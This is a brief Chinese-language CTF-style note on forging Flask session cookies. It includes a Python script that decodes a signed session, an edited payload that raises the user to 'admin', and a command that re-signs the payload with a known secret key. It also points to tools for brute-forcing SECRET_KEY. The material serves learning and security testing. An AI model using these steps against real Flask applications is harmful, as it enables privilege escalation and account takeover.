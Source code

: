 <https://www.cnblogs.com/chrysanthemum/p/11722351.html>
<https://www.cnblogs.com/murkuo/p/15174413.html>
先获取session的解密原session。
python ctf/flask_decode.py   .eJw9kE-xxx

session.get('a')  即 session['a'] 即 jwt令牌中的a参数。
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
修改里面的载体，如user改admin。
```
{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}
```

再加密：
使用密钥+载体字符生成新session脚本：
<https://github.com/noraj/flask-session-cookie-manager>

```
python flask_session_cookie_manager3.py encode -s '密钥' -t '载体'

python flask_session_cookie_manager3.py encode -s "ckj123" -t  "{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}"
```


最后抓包替换即可。


^
## **爆破SECRET_KEY**
用flask-unsign爆破SECRET_KEY
或./jwtcrack



